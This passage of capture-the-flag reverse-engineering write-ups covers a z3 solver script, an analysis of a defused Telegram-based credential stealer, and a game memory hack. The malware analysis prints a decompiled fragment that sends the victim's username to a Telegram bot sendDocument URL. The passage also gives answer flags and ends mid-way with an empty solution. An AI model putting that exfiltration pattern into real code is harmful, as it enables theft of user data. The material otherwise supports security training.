I checked the other methods and rewrote them if needed. The methods are `addition()`, `subtraction()`, `multiplication()`, `xor()` and `and()`.

For better performance, I rewrite them in a simple way in python.

```
def add(param_1, param_2):
    return param_1 + param_2

def sub(param_1, param_2):
    return param_1 - param_2

def mul(param_1, param_2):
    return param_1 * param_2

def xor(param_1, param_2):
    return param_1 ^ param_2

def and_(param_1, param_2):
    return param_1 & param_2
```

Finally, I needed to solve the system of equations with 6 unknowns. Fortunately, there is a python tool called [z3](https://pypi.org/project/z3-solver/), which can solve difficult problems based on simple statements.

Luckily, we have simple statements, so put them into a python script.

**Script :**

```python
from z3 import *

def add(param_1, param_2):
    return param_1 + param_2

def sub(param_1, param_2):
    return param_1 - param_2

def mul(param_1, param_2):
    return param_1 * param_2

def xor(param_1, param_2):
    return param_1 ^ param_2

def and_(param_1, param_2):
    return param_1 & param_2

a, b, c, d, e, f = BitVecs('a b c d e f', 32)

s = Solver()

s.add(a > 100000001)
s.add(b > 100000001)
s.add(c > 100000001)
s.add(d > 100000001)
s.add(e > 100000001)
s.add(f > 100000001)

s.add(a < 1000000000)
s.add(b < 1000000000)
s.add(c < 1000000000)
s.add(d < 1000000000)
s.add(e < 1000000000)
s.add(f < 1000000000)

uVar1 = sub(a, b)
uVar2 = add(uVar1, c)
uVar3 = add(a, b)
uVar1 = mul(2, b)
uVar4 = mul(3, a)
uVar5 = sub(uVar4, uVar1)
uVar6 = xor(a, d)
uVar1 = add(c, a)
uVar7 = and_(b, uVar1)
uVar11 = add(b, d)
uVar1 = add(d, f)
uVar8 = xor(c, uVar1)
uVar9 = sub(e, f)
uVar10 = add(e, f)

s.add(uVar2 % 0x10ae961 == 0x3f29b9)
s.add(uVar3 % 0x1093a1d == 0x8bdcd2)
s.add(uVar5 % uVar6 == 0x212c944d)
s.add(uVar7 % 0x6e22 == 0x31be)
s.add(uVar11 % a == 0x2038c43c)
s.add(uVar8 % 0x1ce628 == 0x1386e2)
s.add(uVar9 % 0x1172502 == 0x103cf4f)
s.add(uVar10 % 0x2e16f83 == 0x16ab0d7)

if s.check() == sat:
    m = s.model()
    print(f'a = {m[a]}\nb = {m[b]}\nc = {m[c]}\nd = {m[d]}\ne = {m[e]}\nf = {m[f]}')
else:
    print("No solution found")
```

This script solves our problem and prints the following result.

```
a = 705965527
b = 780663452
c = 341222189
d = 465893239
e = 966221407
f = 217433792
```

We just need to run the application and put the values there.


### **Problem - 47 :**

We received a phishing email within which we have found this file. We believe this executable acts as some sort of credential stealer. Note: This is a defused real malware, consider disabling your AV.

Solution :

One way was obviously doing it with Virustotal and just getting the API token by reviewing the behaviour section and just decrypting the Cryptographic Plain Text.

```css
Cryptographicalplaintext

5481237002
7267561120:QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9
```

Which would give you the flag but since this required some reversing, it can also be done using `dnSpy` through manual analysis and then de-obfuscating or cleaning the code using `de4dot` as it was too obfuscated. After getting a cleaner version of the executable, further identified some functions which were being used to interact with Telegram and stealing some data. After that I found a `smethod_16 function` which is a decryption method, which utilized DES encryption with a key derived from an MD5 hash, then decrypted the encrypted strings to get a base64-encoded bot-token which contains the flag.

```
https://api.telegram.org/bot,7267561120:QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9,
                /sendDocument?chat_id=,
                5481237002,
                "&caption=",
string.Concat(newstring[]
                {
                    " Pc Name: ",
                    Environment.UserName,
                    " | Snake Tracker\r\n\r\nPW | ",
                    Environment.UserName,
                    " | Snake\r\n\r\n\r\n"
                })

```

Using CyberChef we can decode the bot token and we get the flag. BHFlagY{t3legr4m_g0es_w!ld}

### **Problem - 48 :**

A tribute to the former God Emperor of CSC and Mankind, Ultimate Protector of the CS Department, and Executor of Lord Craig Shue's Divine will.

[https://ctfshellclub.github.io/2019/04/14/wpictf-remi-s-epic-adventure/](https://ctfshellclub.github.io/2019/04/14/wpictf-remi-s-epic-adventure/)

[https://drive.google.com/drive/folders/1RmSgqBhd-_8CFYvvdJXqGDbvzjE3bcwG?usp=sharing](https://drive.google.com/drive/folders/1RmSgqBhd-_8CFYvvdJXqGDbvzjE3bcwG?usp=sharing)

[https://drive.google.com/file/d/1U8WZCXGxdrC8SMiax6o2hX76intY01wL/view?usp=drive_link](https://drive.google.com/file/d/1U8WZCXGxdrC8SMiax6o2hX76intY01wL/view?usp=drive_link)

Author: Justo

Solution :

You want some game play ?

[https://drive.google.com/file/d/1hoOVi0a-6B1MAqukjvbcdr1LNZhM0247/view?usp=sharing](https://drive.google.com/file/d/1hoOVi0a-6B1MAqukjvbcdr1LNZhM0247/view?usp=sharing)

As you can see, it looks like the boss has infinity health (that’s not true, it’s a huge number…).

Okay, let’s launch `Cheat Engine.exe`

What are we looking for ? anything displayed on the screen that can make me win:


```
- `HP` ? I can put it to 200 and never lose life but that won't make me kill the boss faster.
- `Death` ? Hum I can identify the `die` function, so i won't die or maybe i can force the boss to die ?
- `level` ? Why not try to find the level in memory and change it to the level after the boss (boss should be level 6 if the level on the image is truly 1).
```

Modifying the `level` seems interesting. This is how I find the correct value:


So the `level` is stored at 0x6ff82c.

Let’s see what is accessing this value: `right click -> Find out what accesses the address` then finish the level to see what code is writing the next level:

The instruction is at 0xb50201.

cmon do it IDA (in debug mode of course):

```json
.text:00B501E5 loc_B501E5:
.text:00B501E5 call    sub_B717B0
.text:00B501EA mov     edx, dword_C13BE4
.text:00B501F0 movzx   ecx, di
.text:00B501F3 shl     ecx, 10h
.text:00B501F6 movzx   eax, si
.text:00B501F9 or      ecx, eax
.text:00B501FB mov     eax, [edx+1F0h]
.text:00B50201 mov     [ebp-4], eax
.text:00B50204 mov     eax, [edx+0D8h]
.text:00B5020A mov     [ebp-8], ecx
.text:00B5020D test    eax, eax
.text:00B5020F jz      short loc_B5024E
```

The level is stored in `[edx+1F0h]`. all we have to do is to set this value to 7 (one more gif =) ):

[https://drive.google.com/file/d/1gNHtJDTRqNZaa3KrSk5tEh8tH7SgfHzY/view?usp=drive_link](https://drive.google.com/file/d/1gNHtJDTRqNZaa3KrSk5tEh8tH7SgfHzY/view?usp=drive_link)

Well, that was fast ! I recorded it with vlc, so I can go frame by frame:


Or ⇒

So firstly I "beat" the game normally. But the problem is that the final boss' health doesn't even budge when you hit him, but task author ensured that his health is being affected.

So I had to cheat a bit.

First thing I tried was autoclicker. It sure helps with beginning levels, but boss still seems invincible.

So then my teammates told me about sth called CheatEngine - simple program to cheating in simple games. Just what we need.

One of the options is game tick acceleration, but even with autoclicker it wasn't enough. So I concluded I had to directly alter the boss' health.

Other useful option in CheatEngine is searching for values. You can search for places in memory that have given property.

So normally one would search for boss' health and modify it. But I didn't know exact value so I came up with another plan. I guessed boss health is four byte integer. So I search for 4-byte integers lower than 0xffffffff. Then a got couple hits in and from previous findings searched for such that value decreased. After about five iterations there was only four possible values and one was decreasing by 1 when I was hitting the boss.

So I changed it to 10 and when I resumed the game boss health bar disappeared. I finished it of and there was the finish. And there I was at the title screen happy about myself. Here comes a guy, pulling the flag out from behind the screen. (will add photos later)


When there was about two thirds of flag visible he stopped. And then he jumped quickly showing the flag for split-second. Eh...

So I had to repeat the process, but I got to the title screen I used CheatEngine speed alteration to slow down the game 10 times and recorded the display with my phone. Then I read the whole flag that is WPI{j0in_th3_illumin@ti_w1th_m3}.


### **Problem - 49 : ( Proprietary cctv software )**

Caasi installed some new cameras to protect his house against thieves... But he needs a software to manage these cameras. After searching for an hour on the Internet an open-source tool or a freeware he finally finds a tool on an obscure website.

Unfortunately, he does not succeed in cracking it... Can you give him a hand ?

He only knows that this program was compiled using Python 3.5.2+

Good luck !

You'll probably need to run pip3 install PyQt5 before running the script using python3 cctv_manager_activator.pyc 

[https://github.com/HugoDelval/inshack-2017/blob/master/challenges/reverse/proprietary-cctv-software-150/public-files/cctv_soft.zip](https://github.com/HugoDelval/inshack-2017/blob/master/challenges/reverse/proprietary-cctv-software-150/public-files/cctv_soft.zip)

[https://drive.google.com/file/d/13nvQSX3oYg9pHpv6dzvi95e0ywJa3CdS/view?usp=drive_link](https://drive.google.com/file/d/13nvQSX3oYg9pHpv6dzvi95e0ywJa3CdS/view?usp=drive_link)

Solution :

###